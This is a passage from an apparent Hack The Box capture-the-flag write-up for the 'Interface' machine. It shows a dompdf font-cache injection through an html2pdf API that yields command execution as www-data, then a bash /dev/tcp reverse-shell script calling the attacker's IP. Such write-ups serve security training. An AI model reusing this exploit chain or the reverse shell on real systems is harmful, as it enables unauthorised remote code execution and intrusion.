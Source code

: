 
We also modify the php file to allow us to execute commands.

![Web recon](/img/htb_img/Interface_img/05.png)


After that, we execute two servers, one at port 9000 and the other at 9001.

```bash
❯ python3 -m http.server 9000
❯ python3 -m http.server 9001
```

And we run our exploit:

```bash
❯ curl http://prd.m.rendering-api.interface.htb/api/html2pdf -d '{"html":"<link rel=stylesheet href=\"http://10.10.X.X:9001/exploit.css\">"}'
```

After that we check for our md5sum, because it’s used to create the php file:

```bash
❯ echo -ne "http://10.10.X.X:9001/exploit_font.php" | md5sum         
05eee38048064022101b29bc7ca64806  -
```

So our md5sum is `05eee38048064022101b29bc7ca64806`.

```bash
❯ curl http://prd.m.rendering-api.interface.htb/vendor/dompdf/dompdf/lib/fonts/exploitfont_normal_05eee38048064022101b29bc7ca64806.php\?cmd\=id --output -

<...>

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Sooo, we have a foothold to execure a reverse shell to our machine:

```bash
❯ cat shell.sh       
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: shell.sh
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ #!/bin/bash
   2   │ 
   3   │ bash -i >&/dev/tcp/10.10.X.X/4444 0>&1
───────┴────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
